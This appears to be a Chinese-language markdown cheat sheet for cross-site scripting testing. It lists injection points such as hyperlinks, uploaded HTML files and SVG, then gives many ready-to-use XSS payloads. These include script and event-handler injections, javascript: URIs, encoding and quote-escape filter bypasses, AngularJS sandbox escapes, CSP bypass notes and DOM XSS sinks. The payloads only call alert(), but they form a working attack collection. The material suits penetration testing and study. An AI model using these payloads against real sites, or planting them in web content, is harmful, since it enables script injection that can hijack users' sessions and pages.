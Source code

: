 ## 可能出现xss漏洞的位置
- 所有配置超链接的地方  
使用www.baidu.com 测试是否可以重定向，然后url配置为`javascript:alert('xss');`  
- 文件上传的地方
上传文件修改为 `.html` ，内容为 `<image src=1 onerror=alert(document.domain)>`，然后去访问这个文件   
- svg插入xss	

## 常用POC:
- `"><script>alert(1)</script>`  
- `<image src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
JavaScript伪协议，超链接的地方就可能会存在
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 绕过防护POC：
- 在标签中`/`可代替空格  
- = 两边添加TAB键  
- poc进行16进制编码，去掉`;`仍然可执行  
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `  
`%3Ca%20hREf%20%3D%20%27javasCriPt%3Aalert(%2Fxss%2F)%27%3Eclick%20me!%3C%2Fa%3E` javascript伪协议 
- 尖括号被转义绕过
尝试利用事件执行xss，这里我主要采用与用户接口(鼠标、键盘)相关的事件，如click、mouseover等：  
```html
<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>
``` 

## 事件执行触发POC:
- accesskey:设置快捷键  
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动  
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```html
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<rect width="300" height="100" onmouseover="alert(/xss/)" style="fill:rgb(0,0,255);stroke-width:3;strcke:rgb(0,0,0)">
</svg>
```

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等